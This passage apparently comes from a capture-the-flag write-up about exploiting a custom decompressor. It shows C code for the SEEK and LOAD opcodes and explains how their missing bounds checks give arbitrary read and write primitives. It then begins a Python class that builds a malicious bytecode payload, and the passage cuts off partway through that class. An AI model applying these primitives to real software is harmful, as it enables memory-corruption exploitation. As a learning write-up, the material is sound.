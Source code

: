   Opcode implementation:
  ```c
  case 2: {
    // Seek
    uint64_t off = *(uint64_t*)(&in[cur]);
    cur += sizeof(off);
    out += off;
    break;
  }
  ``` 

* 3 -> LOAD(off, size). 
  Copy `size` bytes from `out - off` to `out`, increment `out` by 8.

  Opcode implementation:
  ```c
  case 3: {
    // Copy some previously written bytes
    uint64_t off = *(uint64_t*)(&in[cur]);
    cur += sizeof(off);
    uint64_t count = *(uint64_t*)(&in[cur]);
    cur += sizeof(off);
    memcpy(out, out-off, count);
    out += count;
    break;
  }
  ```

There are no bounds check in any of the operation, that gives us 2 useful primitives:
* Read What Where, abusing `SEEK+LOAD`
* Write What Where: abusing `SEEK+STORE`

I used this code to build the bytecode:
```py
IN_ADDR = 0x42069000000 # PROT R
OUT_ADDR = 0x13371337000 # PROT RW
M64 = (1<<64)-1

class CompressedFile():
    __slots__ = ['cur', 'content', 'out']

    def __init__(self, filesize):
        self.cur = 16
        self.content = b''
        self.content += p64(0x0123456789abcdef) # magic
        self.content += p64(filesize) # file size
        self.out = OUT_ADDR

    def nop(self):
        self.content += b'\x00'
        self.cur += 1

    def write(self, b: bytes):
        assert len(b) == 1

        self.content += b'\x01' + b
        self.cur += 2
        self.out += 1

    def seek(self, off):
        self.content += b'\x02'
        self.content += p64(off)
        self.cur += 9

    def memcpy(self, off, count):
        # memcpy(out, out-off, count);
```